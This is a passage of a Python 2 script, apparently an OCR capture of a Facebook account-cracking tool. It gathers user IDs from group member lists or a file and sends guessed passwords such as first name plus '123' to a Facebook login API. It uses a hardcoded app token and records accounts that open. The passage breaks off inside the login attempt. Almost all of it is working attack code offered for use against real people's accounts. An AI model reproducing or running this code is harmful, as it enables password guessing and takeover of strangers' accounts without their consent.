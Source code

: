 			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		idg=raw_input('\033[1;91m[+] \033[1;92mInput ID group \033[1;91m:\033[1;97m ')
		try:
			r=requests.get('https://graph.facebook.com/group/?id='+idg+'&access_token='+fb_token)
			asw=json.loads(r.text)
			print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom group \033[1;91m:\033[1;97m "+asw['name']
		except KeyError:
			print"\033[1;91m[!] Group not found"
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			super()
		mkdir('\033[1;91m[✺] \033[1;92mGet group member id \033[1;97m...')
		re=requests.get('https://graph.facebook.com/'+idg+'/members?fields=name,id&limit=9999999999999&access_token='+fb_token)
		s=json.loads(re.text)
		for p in s['data']:
			id.append(p['id'])
        elif peak == "4":
                os.system('clear')
                print logo
                try:
                        idlist = raw_input('\033[1;91m[+] \033[1;92mFile ID  \033[1;91m: \033[1;97m')
                        for line in open(idlist,'r').readlines():
                                id.append(line.strip())
                except KeyError:
                        print '\033[1;91m[!] File not found'
                        raw_input('\n\033[1;91m[ \033[1;97mBack \033[1;91m]')
                        super()
	elif peak =="0":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong input"
		choices_super()

        print "\033[1;91m[+] \033[1;92mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
        mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	tiload = ['.   ','..  ','... ']
	for o in tiload:
		print("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
        print 42*"\033[1;97m═"


	##### crack #####
	def main(arg):
		global checkpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			#Pass1
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+fb_token)
			b = json.loads(a.text)
			pass1 = b['first_name']+'123'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])